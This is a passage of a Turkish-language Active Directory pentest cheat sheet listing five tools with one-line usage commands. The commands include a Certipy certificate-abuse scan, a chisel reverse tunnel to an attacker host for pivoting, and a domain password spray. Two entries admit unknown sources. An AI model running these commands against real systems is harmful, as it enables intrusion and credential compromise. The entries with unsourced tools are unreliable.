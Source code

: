
## 11. Certipy
**Kısa Tanım**: Python tabanlı AD CS saldırı aracı (sertifika zafiyetleri, ESC8 vb.).  
**Usage**:
```bash
certipy find -u 'user' -p 'Pass123' -dc-ip 10.0.0.10
```
**GitHub**: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

---

## 12. chisel
**Kısa Tanım**: TCP/UDP tünelleme aracı, pivoting yapmak için kullanılır (AD iç ağına sızdıktan sonra).  
**Usage**:
```bash
# Server
chisel server -p 8000 --reverse

# Client
chisel client <AttackerIP>:8000 R:1080:socks
```
**GitHub**: [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

---

## 13. dcip
**Kısa Tanım**: AD DC IP’leri ve host adlarını eşleştirme, DNS/LDAP sorgularıyla mini keşif aracı.  
**Usage**:
```bash
python3 dcip.py -d domain.local --dc-ip 10.0.0.10
```
**GitHub**: [Araştırınız]

---

## 14. DomainPasswordSpray
**Kısa Tanım**: Toplu “password spray” saldırısı yapan Python aracı. Lockout riskini minimize etme ayarları var.  
**Usage**:
```bash
python3 DomainPasswordSpray.py --userfile users.txt --password Winter2025! --domain domain.local
```
**GitHub**: [https://github.com/OneLogicalMyth/DomainPasswordSpray](https://github.com/OneLogicalMyth/DomainPasswordSpray)

---

## 15. EnumI4
**Kısa Tanım**: SMB/NetBIOS enumeration script’i. Null session vb. testleri yapar.  
**Usage**:
```bash
python EnumI4.py 10.0.0.10
```
**GitHub**: [Eski bir codeproject, kesin link belirsiz]

---